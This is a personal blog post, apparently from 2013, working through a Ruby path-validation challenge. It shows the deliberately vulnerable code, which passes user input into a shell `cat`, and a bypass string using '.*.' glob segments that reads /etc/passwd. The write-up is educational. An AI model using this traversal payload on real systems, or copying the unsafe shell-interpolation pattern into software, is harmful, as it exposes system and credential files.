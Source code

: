 ```yaml
---
layout: post
title: "Challenge Accepted: Local File Inclusion"
date: 2013-12-09 08:18
comments: true
categories: [Challenge, Security, Local File Inclusion]
---
```


This morning I woke up to some unfriendly ice rain, and last night's snow covered sidewalk has turned into an ice-skating rink.  Baby steps were necessary to avoid ending up in a horizontal position involuntarily.  I made it to the train station safely, and got on the NYC-bound train.
On the bright side, Egor Homakov (@homakov) posted a challenge on Twitter for finding the local file inclusion security hole in a piece of path validation code.

```ruby
input = 'sub/dir/ectory'
input = input.strip
 
raise 'NO WAI' if input[0] == '/'
 
if input.split('/').any?{|folder| !(folder =~ /\A[a-zA-Z*.]+\z/) or folder == '..' }
puts 'Error'
else
puts `cat #{input}`
end
```

Looks like my 40 minute train ride has turned into a hacking session and I eagerly played around with the provided code to access the contents of my local `etc/passwd` file. Eureka! Finally, I figured out that by breaking up `..` (parent directory) with the wildcard symbol `*`, I could trick the validation code into allowing my path string. Also, in `bash` the folder `.*.` behaves the same as `..`, so by prepending `etc/passwd` with the right number of `.*./` strings, I could finally access the coveted password file.

``` ruby
# Note: This path gives me the passwd file contents on my local system
input = '.*./.*./.*./.*./.*./etc/passwd'
 
input = input.strip
 
raise 'NO WAI' if input[0] == '/'
 
if input.split('/').any?{|folder| !(folder =~ /\A[a-zA-Z*.]+\z/) or folder == '..' }
puts 'Error'
else
puts `cat #{input}`
end
```